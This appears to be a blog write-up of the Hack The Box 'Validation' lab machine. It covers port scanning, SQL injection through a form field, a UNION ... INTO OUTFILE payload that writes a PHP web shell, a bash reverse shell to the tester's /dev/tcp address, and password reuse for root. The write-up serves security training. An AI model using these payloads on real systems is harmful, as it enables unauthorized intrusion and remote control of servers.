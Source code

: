 ```yaml
---
title:  "Writeup of Validation machine of Hack The Box"
date: 2023-04-16
mathjax: true
layout: post
categories: writeup
tags: sql-injection burpsuite php web-shell
---
```


# Resolution of Validation machine of Hack The Box

![](https://i.ibb.co/SdzyZRf/validation.png)

### 💉 *"Machine vulnerable to SQL Injection !!"*

**As always, we first check that we have a connection to the victim machine, from our attacking machine. One way to do this is by sending ICMP packets with the "ping" command:**

```bash
ping -c 1 10.10.11.116
```

**We now know that we have a connection to the machine since it responded with the packets we received**.

![](https://i.ibb.co/tMw3TDP/ping.png)

First we do an Active scan of the machine in search of open ports with the following command

```bash
sudo nmap 10.10.11.116 -p- --min-rate 5000 -sS -Pn -oG openPorts -vvv 
```

With the above command we export the result in a format in which we can extract the open ports with the help of commands such as *"grep, awk and others "* and then scan in depth:

```bash
sudo nmap 10.10.11.116 -p22,80,4566,8080 -sV -sC -sS -Pn -oN scanComplete -vvv
```

#### Now with the complete scan we obtain the following result:

![](https://i.ibb.co/HX2nbYG/nmap.png)

As port 80 is open running the http service, we enter in the web browser the IP address of the machine through that port:

*But before continuing with the pentesting of this machine, we add as host "validation.htb" with the IP of the machine (10.10.11.116)*.

![](https://i.ibb.co/ZMB5KXJ/etc-hosts.png)

**We see that we have a simple form, written in HTML with an input that allows us to choose our "Username" as well as the region, which defaults to "Brazil". If we inspect the source code we can see that the <form> i.e. the form, sends the values of the "Username" and the "Region" to the web server. With this we can think that these values are hosted in a Database:**.

![](https://i.ibb.co/nBv2wxC/form-html.png)

## Burp Suite

**Now we configure the FoxyProxy extension in Firefox to redirect the request through our localhost on port 8080 (127.0.0.1:8080). This way we intercept it with Burp Suite and from there follow:**

![](https://i.ibb.co/rdCRMvK/burp-suite.png)

**Now from Burp Suite, we comment the value of the “country” field and inject the code:**

```
or 1=1
```

![](https://i.ibb.co/h1gK15v/sqli-nourl.png)

Then we encode it with URL encoding:

![](https://i.ibb.co/crrD0TR/sqli-url.png)

Now if we go back to the web part, we see that the Backend Error is leaked, which makes us think that it is vulnerable to SQL Injection:

![](https://i.ibb.co/xFDK3xZ/sqli-vulnerable.png)

## Once the vulnerability has been found, we create a Backdoor.

As we can see on the site, the web application uses PHP. We can try to inject a web-shell in PHP through a SQL Injection attack:

*The code we are going to use to add a web-shell with an SQL Injection will be:*

```sql
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

*With the previous code we tell the server to also select that fraction of code, (which is the Backdoor), and insert it in the file /var/www/html/shell.php. That is to say that shell.php will be our web-shell in PHP. It is also good to know that normally the web servers that are executed in Linux (these are the majority at the moment, although not all), have as root of web directories the route /var/www/html*.

![](https://i.ibb.co/M8HJL2d/backdoor.png)

## Works!!

We have our web-shell ready in the path /shell.php, now to execute a command in the server we only have to add the following query:

```
shell.php?cmd={comando}
```

![](https://i.ibb.co/3Nc8csP/web-shell.png)

Now we go to [https://www.revshells.com/](https://www.revshells.com/) and generate a payload to execute a Reverse Shell with Netcat and to be able to connect to the server from an interactive console. We execute it as a command in the Backdoor of "shell.php".

After trying several types of shells, it worked for me to add it:

```bash
bash -c '{payload de la shell}'
```

Which would look like this:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.2/4545 0>&1'
```

We encode it as a URL and execute the code in the web-shell, from the browser or from Burp Suite.

**We see in the "config.php" file a password **.

![](https://i.ibb.co/hZfGLGh/config-php.png)

**As we are Pentesters, we have to test all the ways in which the system could be accessed in a privileged way, so we try to use that password to authenticate as root user:** 

## YES! It seems that this is the root password.

![](https://i.ibb.co/NsT0Z4n/flag-root.png)

### And with this we finish the machine and we have full access to the system.

Happy Hacking!!

----

## Author: Mateo Fumis 
